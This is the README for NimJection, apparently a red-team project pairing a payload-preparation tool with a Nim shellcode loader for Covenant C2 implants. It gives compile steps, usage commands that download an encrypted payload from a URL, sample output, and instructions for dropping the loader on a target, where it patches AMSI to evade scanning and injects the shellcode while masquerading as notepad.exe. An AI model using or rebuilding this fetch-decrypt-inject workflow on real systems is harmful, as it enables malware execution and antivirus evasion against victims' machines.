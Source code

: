 # NimJection
My experiments with Nim for covenant implant operations. Highly recommend looking at Marcello Salvati’s https://github.com/byt3bl33d3r repo which i used massively for this project.

Highly recomend 
## PrepPayload
Used for grabbing b64 shellcode, either from a file or URL, converting it to correct format and encrypting using specified encryption key. Creates encrypt.txt file containing encrypted shellcode for use with NimJection.

### Compile Instructions:
```
nim c -d:ssl PrepPayload.nim
```
> Experienced SSL problems if cross compiling in Windows from Unix so would recommend compiling on platform you’re going to use it on.

### Usage
```
Flags:
--url
--file
--enkey encryption key, DEAFULT: Nimjection

./PrepPayload  --url:http://127.0.0.1/shellcode Get Remote Payload
./PrepPayload --file:"Local Payload File"       Get Local Payload
```

## NimJection
What you drop onto target. Decrypts ‘encrypt.txt’, either locally or via grabbing it from URL, created by PrepPayload, does some AMSI patching and then injects and executes resulting shellcode pretending to be notepad.exe.

### Compile Instructions:
```
nim c -d:ssl NimJection.nim
```
> Recommend compiling on windows due to SSL issues – but if grabbing file locally/over http ‘should’ work via cross compile

### Usage
```
--url
--file
--enkey encryption key

Usage:
./Nimjection.exe  --url:http://127.0.0.1/shellcode      Get Remote Payload
./Nimjection.exe --file:"Local Payload File"    Get Local Payload
```

> There is a slight issue with the code in the fact that byte array sizes need to be declared at compile. To aid in usage, PrePayload will display the byte array size in its output:

```
./PrepPayload --url:https://127.0.0.1/GruntHTTP.bin.b64 --enkey:test

Grabbing payload from: https://127.0.0.1/GruntHTTP.bin.b64
[*] Using httpclient
Encrypting Payload...
IV: 03A5EF054B596D12055585BC99C8160D
ENKEY: test
ENCRYPTED PAYLOAD: ./encrypt.txt
PAYLOAD SIZE = 43132 Check decrypt nim dectext array size matches
```
Before compiling Nimjector for use on a target, decryt.nim needs to be checked/changed to have the right return array size and dextext array size.

```
proc decrypt*(envkey = "", payload = ""): array[43132,byte] =

dectext: array[43132,byte]

```


